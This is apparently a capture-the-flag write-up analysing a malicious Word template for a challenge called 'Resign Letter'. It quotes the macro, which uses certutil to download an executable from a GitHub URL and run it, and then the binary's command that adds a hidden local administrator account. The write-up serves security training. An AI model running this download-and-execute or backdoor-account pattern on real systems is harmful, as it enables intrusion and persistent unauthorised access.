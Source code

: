 # Task 1: Resign Letter
Question: 

Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![image](https://hackmd.io/_uploads/BJ-lW6Hp6.png)

Opening the macro named `Test` as shown below provides us with the following code.

![image](https://hackmd.io/_uploads/rkgoLZaHap.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user `f14g` with password `cEBzczEyMw==` to the local machine and add it to the `Administrators` group. Decode the password with base64 for the flag.
